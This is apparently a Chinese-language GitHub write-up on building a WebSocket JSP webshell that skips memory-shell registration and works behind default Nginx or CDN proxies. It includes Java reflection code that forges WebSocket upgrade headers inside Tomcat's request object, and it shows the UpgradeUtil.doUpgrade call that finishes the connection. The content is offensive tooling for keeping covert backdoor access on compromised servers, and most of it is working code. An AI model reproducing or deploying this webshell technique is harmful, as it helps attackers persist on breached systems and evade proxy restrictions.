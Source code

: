 # 无需注入，可以绕过Nginx、CDN代理限制的 WebSocket jsp马

    之前提到过可以向 WsServerContainer 容器内 添加ServerEndpointConfig 来注册WebSocket内存马，这样即有好处也有弊端，好处是内存马无落地文件，不好的地方是容易受限制无法使用。于是，我最近改写了下脚本的内容，直接取jsp内的request进行协议升级，从而不需要进行注册路径等操作，增加了HttpServletRequest的Header，使其可以在Nginx代理默认配置下使用

Nginx默认代理配置本身是不支持WebSocket协议的，需要修改 /etc/nginx/conf.d/nginx.conf，增加 proxy_set_header 内容，网上也可以搜到许多资料，其实就是增加了两个文件头，并未做其他处理。

那其实我们完全可以在Server端拦截request自己添加文件头来支持WebSocket

```java
    private void SetHeader(HttpServletRequest request, String key, String value){
        Class<? extends HttpServletRequest> requestClass = request.getClass();
        try {
            Field requestField = requestClass.getDeclaredField("request");
            requestField.setAccessible(true);
            Object requestObj = requestField.get(request);
            Field coyoteRequestField = requestObj.getClass().getDeclaredField("coyoteRequest");
            coyoteRequestField.setAccessible(true);
            Object coyoteRequestObj = coyoteRequestField.get(requestObj);
            Field headersField = coyoteRequestObj.getClass().getDeclaredField("headers");
            headersField.setAccessible(true);
            MimeHeaders headersObj = (MimeHeaders)headersField.get(coyoteRequestObj);
            headersObj.removeHeader(key);
            headersObj.addValue(key).setString(value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    SetHeader(request,"Connection","upgrade");
    SetHeader(request,"Sec-WebSocket-Version","13");
    SetHeader(request,"Upgrade","websocket");
```

通过添加这三个文件头，Tomcat就可以通过后续的doUpgrade校验了

```java
if (!headerContainsToken(req, Constants.CONNECTION_HEADER_NAME,
        Constants.CONNECTION_HEADER_VALUE)) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
if (!headerContainsToken(req, Constants.WS_VERSION_HEADER_NAME,
        Constants.WS_VERSION_HEADER_VALUE)) {
    resp.setStatus(426);
    resp.setHeader(Constants.WS_VERSION_HEADER_NAME,
            Constants.WS_VERSION_HEADER_VALUE);
    return;
}
key = req.getHeader(Constants.WS_KEY_HEADER_NAME);
if (key == null) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
```

Tomcat 是通过org.apache.tomcat.websocket.server.UpgradeUtil.doUpgrade 来把http协议升级为WebSocket

那把需要的内容传入进去，即可完成jsp文件连接WebSocket的功能

UpgradeUtil.doUpgrade(container, request, response, configEndpoint, pathParams);
